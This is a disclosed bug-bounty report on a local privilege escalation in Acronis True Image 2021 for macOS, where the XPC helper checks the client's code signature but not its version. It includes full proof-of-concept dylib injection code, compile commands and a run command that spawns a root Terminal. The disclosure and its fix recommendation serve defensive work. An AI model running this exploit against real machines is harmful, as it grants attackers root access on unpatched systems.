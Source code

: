 # True Image 2021 - LPE via XPC service communication

## Report Details
- **Report ID**: 966494
- **URL**: https://hackerone.com/reports/966494
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-08-25T07:05:32.149Z
- **Disclosed**: 2021-02-23T07:19:48.576Z

## Reporter
- **Username**: theevilbit
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
This is a follow up of #908152. The bug reported there wasn't fixed properly, and as you don't see it, I consider this as new. In the good faith that you will not close this as duplicate submitting this. Also hoping for a bit more bounty than the 200$... 
The privilege helper tool only validates the code signature of the client, but not the version. This allows someone to use the old version of True Image, 2020, which is vulnerable to injection. Injecting code into the 2020 version allows to talk to the 2021 version XPC service, which will allow LPE.

## Steps To Reproduce

Get the old version of the app and place it into `/Users/Shared/`. The 2021 version is at `/Applications/`.

This is a sample dylib code that can be injected into 2020 version, and talk to the XPC service of 2021.

The priv helper will verify the code signature of the executable to run, we need to provide it with with an Acronis image (this might be vulnerable to race condition as well, TOCTOU issue - we could swap the binary between being verified and executed). Since we can specify environment variables, we can add a DYLD_INSERT_LIBRARIES variable to inject a dylib into an old version of the app, which will satisfy the code signing reqs, and we can also inject code into it.

```
#import <Foundation/Foundation.h>

static NSString* XPCHelperMachServiceName = @"com.acronis.trueimagehelper";

@protocol HelperToolProtocol
- (void)checkFullDiskAccessWithReply:(void (^)(BOOL))arg1;
- (void)executeProcess:(NSString *)arg1 arguments:(NSArray *)arg2 environment:(NSDictionary *)arg3 caller:(int)arg4 withReply:(void (^)(int))arg5;
- (void)executeProcess:(NSString *)arg1 arguments:(NSArray *)arg2 caller:(int)arg3 withReply:(void (^)(int))arg4;
- (void)getProcessIdentifierWithReply:(void (^)(int))arg1;
@end

__attribute__((constructor))
static void customConstructor(int argc, const char **argv) {

     
         NSString*  service_name = XPCHelperMachServiceName;

         NSXPCConnection* connection = [[NSXPCConnection alloc] initWithMachServiceName:service_name options:0x1000];

         NSXPCInterface* interface = [NSXPCInterface interfaceWithProtocol:@protocol(HelperToolProtocol)];

         [connection setRemoteObjectInterface:interface];

         [connection resume];

         id obj = [connection remoteObjectProxyWithErrorHandler:^(NSError* error)
         {
             NSLog(@"[-] Something went wrong");
             NSLog(@"[-] Error: %@", error);
         }];

         NSLog(@"obj: %@", obj);
         NSLog(@"conn: %@", connection);

    NSString* proc = @"/Users/Shared/Acronis True Image.app/Contents/MacOS/backup_worker";
    NSArray* args = [NSArray arrayWithObjects:@"/Library/hello.txt", nil];
    NSDictionary* env = @{@"DYLD_INSERT_LIBRARIES":@"/Users/Shared/env.dylib"};

    [obj executeProcess:proc arguments:args environment:env caller:1 withReply:^(int i){
            NSLog(@"Response, %d", i);
                 }];
         NSLog(@"Done");
}
```
Compile:
```
gcc -dynamiclib -framework Foundation acronis.m -o acronis.dylib
```
We need another dylib taht we inject into the executable which we run. Its code is:

```
#include <stdlib.h>

__attribute__((constructor))
static void customConstructor(int argc, const char **argv) {
	system("/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal");
}
```
Compile:
```
gcc -dynamiclib -framework Foundation env.m -o env.dylib
```

Run:
```
DYLD_INSERT_LIBRARIES=acronis.dylib /Users/Shared/Acronis\ True\ Image.app/Contents/MacOS/Acronis\ True\ Image
```

Once we run it, we will have a Terminal popup as root.

## Impact
Local Privilege Escalation

## Recommendations
Verify the version of the client, like here:
https://github.com/objective-see/LuLu/blob/10e7f719caf0b618b99fceef1a366617662d3b25/launchDaemon/launchDaemon/XPCListener.m
    requirementStringHelper = [NSString stringWithFormat:@"anchor trusted and identifier \"%@\" and certificate leaf [subject.CN] = \"%@\" and info [CFBundleShortVersionString] >= \"1.2.0\"", HELPER_ID, SIGNING_AUTH];

## Impact

LPE

## Attachments
- acronis.m
- acronis.dylib
- env.dylib
- env.m
